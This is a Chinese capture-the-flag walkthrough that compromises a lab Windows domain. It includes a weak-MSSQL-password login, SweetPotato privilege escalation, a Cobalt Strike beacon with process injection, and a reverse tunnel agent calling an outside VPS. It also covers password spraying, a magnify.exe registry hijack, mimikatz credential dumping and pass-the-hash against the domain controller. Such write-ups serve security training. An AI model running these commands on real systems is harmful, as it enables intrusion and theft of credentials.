

## 考点

- mssql弱口令
- SweetPotato提权
- CS注入在线用户进程上线
- 共享文件
- CS不出网转发上线
- 映像劫持提权(放大镜提权)
- Dcsync

## flag1

常规扫端口

```bash
root@VM-16-12-ubuntu:/var/www/html# ./fscan -h 39.98.117.55 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
39.98.117.55:135 open
39.98.117.55:80 open
39.98.117.55:139 open
39.98.117.55:445 open
39.98.117.55:1433 open
39.98.117.55:2383 open
39.98.117.55:3389 open
39.98.117.55:15774 open
39.98.117.55:16452 open
39.98.117.55:16451 open
39.98.117.55:16450 open
39.98.117.55:16453 open
39.98.117.55:17001 open
39.98.117.55:47001 open
39.98.117.55:49666 open
39.98.117.55:49667 open
39.98.117.55:49665 open
39.98.117.55:49691 open
39.98.117.55:49671 open
39.98.117.55:49669 open
39.98.117.55:49664 open
39.98.117.55:49737 open
[*] alive ports len is: 22
start vulscan
[*] NetInfo 
[*]39.98.117.55
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:4d3:3124:53e9:f7ed
[*] WebTitle http://39.98.117.55:47001 code:404 len:315    title:Not Found
[*] WebTitle http://39.98.117.55       code:200 len:703    title:IIS Windows Server
[+] mssql 39.98.117.55:1433:sa 1qaz!QAZ
已完成 21/22 [-] (52/210) rdp 39.98.117.55:3389 administrator Aa1234 remote error: tls: access denied 
已完成 21/22 [-] (102/210) rdp 39.98.117.55:3389 admin test remote error: tls: access denied 
已完成 21/22 [-] (152/210) rdp 39.98.117.55:3389 guest 123 remote error: tls: access denied 
已完成 21/22 [-] (202/210) rdp 39.98.117.55:3389 guest 1qaz!QAZ remote error: tls: access denied 
已完成 22/22
[*] 扫描结束,耗时: 4m41.597425504s
```

发现有一个mssql弱口令，用MDUT登一下

### MDUT连接数据库

https://github.com/SafeGroceryStore/MDUT/releases 



添加后激活组件并尝试RCE



### 甜土豆提权

但是此时的权限还是比较低的，我们传个甜土豆进行提权 https://github.com/uknowsec/SweetPotato

成功上传后利用甜土豆执行命令`C:/迅雷下载/SweetPotato.exe -a "whoami"`

发现是system，说明提权成功了



### C2上线木马

为了方便管理，我们上C2 https://forum.butian.net/share/523

在vps启动服务端teamserver，传入ip地址和密码

```bash
./teamserver [vps的ip] whoami
```

然后我们主机启动客户端进行连接，用户名是root，密码就是whoami



然后我们开启一个监听器



生成一个Windows木马`beacon.exe`



将生成的木马上传后运行`C:/迅雷下载/SweetPotato.exe -a "C:/迅雷下载/beacon.exe"`



成功上线，一开始是直接运行木马的，导致用户还是低权限用户，后面换甜土豆运行后就是SYSTEM了



然后就是读flag

```bash
shell whoami
shell type C:\Users\Administrator\flag\flag01.txt
```



## 内网穿透

用MDUT上传fscan和stowaway，记得给权限

```bash
C:/迅雷下载/SweetPotato.exe -a "chmod +x C:/迅雷下载/*"
C:/迅雷下载/SweetPotato.exe -a "ifconfig"
```

### fscan内网扫描



```bash
C:/迅雷下载/fscan.exe -h 172.22.8.0/24
  ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.46     is alive
(icmp) Target 172.22.8.31     is alive
[*] Icmp alive hosts len is: 4
172.22.8.18:1433 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.31:445 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.46:445 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.18:445 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.15:445 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.31:139 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.46:139 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.18:139 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.15:139 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.31:135 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.46:135 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.15:135 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.18:135 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.46:80 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.18:80 open
Open result.txt error, open result.txt: Access is denied.
172.22.8.15:88 open
Open result.txt error, open result.txt: Access is denied.
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
Open result.txt error, open result.txt: Access is denied.
[*] WebTitle http://172.22.8.18        code:200 len:703    title:IIS Windows Server
Open result.txt error, open result.txt: Access is denied.
[*] NetInfo 
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
Open result.txt error, open result.txt: Access is denied.
[*] NetInfo 
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
Open result.txt error, open result.txt: Access is denied.
[*] NetBios 172.22.8.15     [+] DC:XIAORANG\DC01           
Open result.txt error, open result.txt: Access is denied.
[*] NetInfo 
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
Open result.txt error, open result.txt: Access is denied.
[*] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT         
Open result.txt error, open result.txt: Access is denied.
[*] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
Open result.txt error, open result.txt: Access is denied.
[*] WebTitle http://172.22.8.46        code:200 len:703    title:IIS Windows Server
Open result.txt error, open result.txt: Access is denied.
[+] mssql 172.22.8.18:1433:sa 1qaz!QAZ
Open result.txt error, open result.txt: Access is denied.
已完�?16/16
[*] 扫描结束,耗时: 10.0991565s
```

- 172.22.8.18 	已经拿下
- 172.22.8.31	XIAORANG\WIN19-CLIENT 
- 172.22.8.46	WIN2016.xiaorang.lab
- 172.22.8.15	DC XIAORANG\DC01  

### 搭建隧道

然后搭建代理

```bash
./linux_x64_admin -l 2334 -s 123

C:/迅雷下载/windows_x64_agent.exe -c 124.223.25.186:2334 -s 123 --reconnect 8

use 0
socks 3333

sudo vim /etc/proxychains4.conf
```

然后物理机用proxifier搭建一下代理

## flag2

### RDP添加用户连接

c2中查看端口开放情况

```bash
netstat -ano	//查看端口开放情况
```

意外发现有一个连接



另外看到3389端口是开着的，先add一个用户

```bash
shell net user test1 whoami123! /add
shell net localgroup administrators test1 /add
```

rdp连接上去

然后查看一下用户信息

```bash
net user
query user
```



发现还有一个john并且还是管理员

查看一下当前存活用户

```bash
quser || qwinst
```



### CS进程注入

既然存活，那我们可以尝试cs进程注入 https://blog.csdn.net/qq_32445755/article/details/124349427



打到这选修课下课了。。。急急忙忙回工作室发现网断了，干脆直接重开靶机去打了

随便选择一个john的进程进行inject就行了





成功上线john

用John查看共享资源 

```bash
shell net use 
```



发现存在共享资源，读取一下

```bash
shell dir \\TSCLIENT\C
shell type \\TSCLIENT\C\credential.txt
```

得到了一个域用户

```bash
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#
```

### 密码喷洒攻击

密码喷洒攻击，用kali去打吧

```bash
┌──(root㉿kali)-[/home/kali]
└─# proxychains4 -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
SMB         172.22.8.18     445    WIN-WEB          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:WIN-WEB) (signing:False) (SMBv1:True)
SMB         172.22.8.15     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.8.18     445    WIN-WEB          [-] WIN-WEB\Aldrich:Ald@rLMWuy7Z!# STATUS_LOGON_FAILURE 
SMB         172.22.8.46     445    WIN2016          [*] Windows 10 / Server 2016 Build 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.31     445    WIN19-CLIENT     [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.15     445    DC01             [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
SMB         172.22.8.46     445    WIN2016          [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
SMB         172.22.8.31     445    WIN19-CLIENT     [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
```

要么登录失败要么过期，但是过期的话是可以更改密码的

后面好几个都显示密码已过期，分别是DC01，WIN2016，WIN19-CLIENT三台主机，我们登录上去试一下



### impacket-changepasswd修改密码

需要修改密码，用impacket里面的脚本https://github.com/fortra/impacket，但是没找到这个工具，不过发现kali有一个自带的工具，后面发现原来是脚本名字改了

```bash
proxychains4 impacket-changepasswd xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'Whoami@666'
```



但是测了一下只有`172.22.8.46:3389`是可以rdp上去的

### **不出网转发上线CS**

但是是不出网的，需要用172.22.8.18转发cs上线

给172.22.8.18添加监听器





远程桌面我们可以直接把本机的文件复制粘贴过去，所以生成完复制过去然后点一下即可上线



成功上线

### 进程劫持提权

无权限读取文件，需要映像劫持提权

参考文章：https://www.freebuf.com/articles/system/321211.html，简单的说，就是通过修改指定注册表项实现程序的劫持，即运行指定程序实际上运行的是我们自己的后门程序。

原理
一个程序要被运行时，会先检查注册表，如果有指定程序并且开启了debugger，那么会优先执行debugger指定的程序，这样也就造成了映像劫持。

先看一下注册表权限

```bash
Get-Acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```



重点关注这个

```bash
AccessToString          : CREATOR OWNER Allow  FullControl
                          NT AUTHORITY\Authenticated Users Allow  SetValue, CreateSubKey, ReadKey
                          NT AUTHORITY\SYSTEM Allow  FullControl
                          BUILTIN\Administrators Allow  FullControl
                          BUILTIN\Users Allow  ReadKey
                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
```

所有正常登录的用户都可以修改注册表，利用这个性质，修改注册表映像劫持，这里我使用放大镜进行提权，其实也就是把magnify.exe替换成C:\windows\system32\cmd.exe，这样就直接提权成system了

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

锁定用户，再在右下角的放大镜打开就是system的cmd了



成功劫持并且用户是system高权限用户，我们直接读取flag

```bash
type C:\Users\Administrator\flag\flag02.txt
```



## flag3

还是一样，用system用户去执行我们的cs马子进行上线

```bash
cd C:\Users\Aldrich\Desktop
beacon.exe
```

接下来进行一些域信息搜集

查看域管成员，直接在system的cmd中传命令吧，在cs服务器中传太慢了

```bash
net user /domain
net group "domain admins" /domain
```



### 哈希传递

发现win2016$在域管组里，即机器账户可以Hash传递登录域控，所以相当于直接拿域控了。

https://github.com/ParrotSec/mimikatz 利用mimikatz进行hash传递攻击

```bash
shell C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```



```bash
logonpasswords4ba974f170ab0fe1a8a1eb0ed8f6fe1a	//抓取到的哈希值
```

这里我们也可以使用CS来logonpasswords，得到域控的hash

```bash
shell logonpasswords
```

然后进行哈希传递

```bash
proxychains4 crackmapexec smb 172.22.8.15 -u WIN2016$ -H 4ba974f170ab0fe1a8a1eb0ed8f6fe1a -d xiaorang -x "whoami"
proxychains4 crackmapexec smb 172.22.8.15 -u WIN2016$ -H 4ba974f170ab0fe1a8a1eb0ed8f6fe1a -d xiaorang -x "type C:\Users\Administrator\flag\flag03.txt"
```
